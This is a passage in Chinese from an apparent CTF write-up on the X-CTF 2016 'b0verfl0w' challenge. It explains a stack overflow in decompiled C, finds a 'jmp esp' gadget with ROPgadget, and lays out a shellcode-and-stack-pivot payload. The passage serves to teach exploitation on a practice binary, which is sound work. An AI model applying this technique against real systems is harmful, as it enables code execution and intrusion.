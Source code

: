 可以看出源程序为 32 位，也没有开启 NX 保护，下面我们来找一下程序的漏洞

```C
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

可以看出，源程序存在栈溢出漏洞。但是其所能溢出的字节就只有 50-0x20-4=14 个字节，所以我们很难执行一些比较好的 ROP。这里我们就考虑 stack pivoting 。由于程序本身并没有开启堆栈保护，所以我们可以在栈上布置shellcode 并执行。基本利用思路如下

- 利用栈溢出布置 shellcode
- 控制 eip 指向 shellcode处

第一步，还是比较容易地，直接读取即可，但是由于程序本身会开启 ASLR 保护，所以我们很难直接知道shellcode 的地址。但是栈上相对偏移是固定的，所以我们可以利用栈溢出对 esp 进行操作，使其指向 shellcode处，并且直接控制程序跳转至 esp处。那下面就是找控制程序跳转到 esp 处的 gadgets 了。

```shell
➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ ROPgadget --binary b0verfl0w --only 'jmp|ret'         
Gadgets information
============================================================
0x08048504 : jmp esp
0x0804836a : ret
0x0804847e : ret 0xeac1

Unique gadgets found: 3
```

这里我们发现有一个可以直接跳转到 esp 的 gadgets。那么我们可以布置 payload 如下

```text
shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp
```

那么我们 payload 中的最后一部分改如何设置 esp 呢，可以知道

- size(shellcode+padding)=0x20
- size(fake ebp)=0x4
- size(0x08048504)=0x4

所以我们最后一段需要执行的指令就是

```asm
sub 0x28,esp
jmp esp
```
